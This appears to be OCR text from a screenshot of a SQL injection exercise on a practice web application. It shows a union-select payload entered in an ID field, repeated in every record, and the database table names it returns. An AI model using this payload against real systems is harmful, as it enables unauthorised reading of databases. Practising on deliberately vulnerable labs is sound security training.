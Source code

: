 ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: objects_summary_global_by_type
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: performance_timers
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: rwlock_instances
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: setup_actors
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: setup_consumers
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: setup_instruments
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: setup_objects
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: setup_timers
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: table_io_waits_summary_by_index_usage
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: table_io_waits_summary_by_table
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: table_lock_waits_summary_by_table
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: threads
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_stages_current
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_stages_history
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_stages_history_long
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_stages_summary_by_thread_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_stages_summary_by_account_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_stages_summary_by_user_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_stages_summary_by_host_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_stages_summary_global_by_event_name
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 
First name: 
Surname: events_statements_current
ID:  %' and 1=0 union select null,  table_name from information_schema.tables # 